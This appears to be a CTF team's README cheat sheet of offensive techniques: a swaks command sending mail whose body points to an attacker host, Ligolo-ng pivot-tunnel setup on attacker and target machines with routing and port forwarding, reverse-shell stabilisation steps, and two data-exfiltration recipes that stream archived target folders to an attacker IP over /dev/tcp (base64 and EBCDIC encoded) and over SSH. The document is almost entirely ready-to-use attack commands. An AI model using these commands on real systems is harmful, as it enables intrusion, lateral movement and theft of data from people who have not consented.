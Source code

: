 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
 
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


# Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

# Exfilrating Data
## via TCP socket, ebcdic and base64
### On kali:
```
nc -nlvp 80 > datafolder.tmp
```
### On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
### On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
## via SSH
### On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
### On kali:
```
cd /tmp/datafolder
```
